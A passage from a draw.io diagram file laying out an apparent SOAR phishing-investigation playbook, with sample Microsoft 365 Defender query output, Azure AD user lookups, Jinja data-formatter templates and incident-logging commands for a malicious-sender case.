        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-122" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Stats&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ExecutionTime&quot;: 10.25,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;resource_usage&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cache&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;memory&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hits&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;misses&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;disk&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hits&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;misses&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cpu&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user&quot;: &quot;00:00:00&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kernel&quot;: &quot;00:00:00&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total cpu&quot;: &quot;00:00:00&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;memory&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;peak_per_node&quot;: 524384&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;dataset_statistics&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;table_row_count&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;table_size&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Schema&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;Timestamp&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;DateTime&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;NetworkMessageId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;InternetMessageId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderMailFromAddress&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderFromAddress&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderDisplayName&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderObjectId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderMailFromDomain&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderFromDomain&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderIPv4&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderIPv6&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;RecipientEmailAddress&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;RecipientObjectId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;Subject&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailClusterId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;Int64&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailDirection&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;DeliveryAction&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;DeliveryLocation&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ThreatTypes&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ThreatNames&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;DetectionMethods&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ConfidenceLevel&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;BulkComplaintLevel&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;Int32&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailAction&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailActionPolicy&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailActionPolicyGuid&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;AuthenticationDetails&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;AttachmentCount&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;Int32&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;UrlCount&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;Int32&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;EmailLanguage&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;Connectors&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;OrgLevelAction&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;OrgLevelPolicy&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;UserLevelAction&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;UserLevelPolicy&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ReportId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;AdditionalFields&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Results&quot;: []&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2452.5" y="150" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-123" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;User Email :&amp;nbsp;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2480" y="590" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-124" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&#39;User Info&#39;: {&#39;Display Name&#39;: Undefined, &#39;First Name&#39;: &#39;&#39;, &#39;Last Name&#39;: &#39;&#39;, &#39;Email&#39;: Undefined, &#39;Job Title&#39;: &#39;Administrator&#39;}, &#39;User Group&#39;: &#39;&#39;, &#39;User Manager&#39;: {&#39;First Name&#39;: &#39;&#39;, &#39;Last Name&#39;: &#39;&#39;, &#39;Email&#39;: &#39;hhe@d3security.com&#39;, &#39;Job Title&#39;: &#39;Manager&#39;}, &#39;userActivity&#39;: []}&lt;br&gt;&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2480" y="630" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-130" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-125" target="NKeEgVbL9whLPdXC6YmX-129">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-125" value="Get All Recipients from the Senders&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2730" y="260" width="210" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-127" value="Update IOA-Sender&lt;br&gt;Command - RSA_InvestigationIOAIOC" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2730" y="375" width="220" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-129" value="Investigation-Sender Correlation&lt;br&gt;Command - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3000" y="260" width="250" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-131" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;Email Information from Malicious Senders&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Correlate MS 365 Defender to get all email information related to malicious sender email addresses&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;[&quot;phish@d3soar.com&quot;]&amp;nbsp;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3015" y="120" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-132" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;{% set results = PlaybookData | jsonpath(&#39;$.[&quot;Get Emails from Senders&quot;].returnData.Results&#39;)|to_list%}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{% set outArray = []%}&lt;/div&gt;&lt;div&gt;{% for item in results if results%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% set object = {&quot;Timestamp&quot;: item.Timestamp, &quot;Sender&quot;: item.SenderFromAddress, &quot;Recipient&quot;: item.RecipientEmailAddress, &quot;Subject&quot;: item.Subject } %}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% set _temp = outArray.append(object)%}&lt;/div&gt;&lt;div&gt;{% endfor %}&lt;/div&gt;&lt;div&gt;{{outArray}}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2740" y="120" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-133" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationIOAIOC&lt;/div&gt;&lt;div&gt;Parameter 1: Type&lt;/div&gt;&lt;div&gt;IOA&lt;/div&gt;&lt;div&gt;Parameter 2: Sub Type&lt;/div&gt;&lt;div&gt;Artifact&lt;/div&gt;&lt;div&gt;Parameter 3: Title&lt;/div&gt;&lt;div&gt;Malicious Sender to Internal Email Address&lt;/div&gt;&lt;div&gt;Parameter 4: Description&lt;/div&gt;&lt;div&gt;Parameter 5: Timestamp&lt;/div&gt;&lt;div&gt;2023-04-25 00:36:26&lt;/div&gt;&lt;div&gt;Parameter 6: Relation&lt;/div&gt;&lt;div&gt;&amp;nbsp;&lt;/div&gt;&lt;div&gt;Parameter 7: Incident No&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 8: Section&lt;/div&gt;&lt;div&gt;Findings: Indicators of Attack (IOA)&lt;/div&gt;&lt;div&gt;Parameter 9: 2nd Subtype&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3000" y="350" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-141" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-134" target="NKeEgVbL9whLPdXC6YmX-140">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-134" value="Get Impacted Usernames&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2805" y="540" width="220" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-136" value="Investigation-Recipients Info&lt;br&gt;Command - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2790" y="790" width="250" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-138" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set impactedUsers = PlaybookData | jsonpath(&#39;$.[&quot;Get User Information from Azure AD&quot;].returnData[*][&quot;User Info&quot;][&quot;Display Name&quot;]&#39;)|to_list|plus([&quot;Administrator&quot;]) %}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{% set outArray = []%}&lt;/div&gt;&lt;div&gt;{% for user in impactedUsers if impactedUsers%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% set object = {&quot;User&quot;: user} %}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% set _temp = outArray.append(object)%}&lt;/div&gt;&lt;div&gt;{% endfor %}&lt;/div&gt;&lt;div&gt;{{outArray}}&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="610" width="200" height="100" as="geometry" />
        </mxCell>
